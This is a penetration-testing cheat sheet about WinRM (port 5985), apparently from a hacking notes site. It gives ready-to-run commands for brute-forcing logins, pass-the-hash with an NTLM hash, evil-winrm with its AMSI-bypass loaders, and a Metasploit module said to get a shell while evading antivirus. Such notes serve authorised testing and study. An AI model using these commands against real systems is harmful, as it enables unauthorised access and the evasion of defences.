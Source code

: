 ```yaml
---
description: >-
  Windows Remote Management (WinRM) is the Microsoft implementation of
  WS-Management Protocol, a standard Simple Object Access Protocol (SOAP)-based.
  Usaully run on port 5985.
---
```


# 5985 - WinRM

## Info

WinRM uses the PSRemoting \(PowerShell remote\) to login to a host and execute commands.

You can enable WinRM by running `Enable-PSRemoting`

By default WinRM uses port 5985 for sending traffic over HTTP \(But it's still encrypted\), and port 5986 for SSL.

If you can make a HTTP request \(GET\) to `/wsman` and you get 200 back, WinRM  is enabled \(on port 5985\).

### Add User to winrm group

```text
net localgroup "Remote Management Users" /add bowen
```

## Bruteforce login

### Metasploit

The winrm\_login module is a standard Metasploit login scanner to bruteforce passwords.

`use auxiliary/scanner/winrm/winrm_login`

### Crackmapexec

`cme winrm 192.168.1.0/24 -u userfile -p passwordfile`

## Login from windows

### Powershell

From a powershell command prompt:

```text
$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force 
$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass) 
Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }
```

###  Winrs

Winrs.exe is a built-in command line tool that allows for the execution of remote commands over WinRm with a properly credentialed user.

```text
winrs -r:corp-dc "whoami /all"
```

###  **Winrm.cmd**

Command–line tool for system management is implemented in a Visual Basic Scripting Edition file \(Winrm.vbs\) written using the WinRM scripting API.

```text
winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad"} -r:corp-dc
```

## Login from Linux

### Ruby Script

A quick and dirty script - use  [Alamot’s Ruby script](https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb)  

Remember to change the username and password 

### Evil-WinRM

A comprehensive winrm shell

[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Install:

```text
sudo apt install ruby-dev build-essential
sudo gem install evil-winrm
```

You can also execute built in 'Bypass-AMSI', 'DLL-loader', 'Dount Loader' and 'Invoke Binary' straight from the shell by just typing `menu` in the shell

We can also load powershell scripts using the `-s` option and providing a folder with scripts, and then just calling the script from the shell \(example typing `powerup.ps` \)and then when we go to the menu it will show the functions from that script.

**Note:** Evil-WINRM uses **Invoke-Expression** to execute command - therefor if you're in some kind of constrained language mode that isn’t allowing Invoke-Expression you will get errors.

Like this:

```text

*Evil-WinRM* PS The term 'Invoke-Expression' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (Invoke-Expression:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException> 
```

### CrackMapexec

Here’s an example of using CrackMapExec winrm method as local Administrator with a clear text password:

`crackmapexec winrm -d . -u Administrator -p 'pass123' -x "whoami" 192.168.204.183` 

Here’s example using a NTLM hash:

`crackmapexec winrm -d . -u Administrator -H aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76 -x "whoami" 192.168.204.183`

### Metasploit

WinRM Script Exec exploit module can obtain a shell without triggering an anti-virus solution, in certain cases. This module has two different payload delivery methods. Its primary delivery method is through the use of PowerShell 2.0. The module checks to see if PowerShell 2.0 is available on the system. It then tries to enable unrestricted script execution, an important step because PowerShell does not execute unsigned script files by default. If either of these checks fail, it will default to the VBS CmdStager payload method, otherwise it will use our Powershell 2.0 method.

`use exploit/windows/winrm/winrm_script_exec`

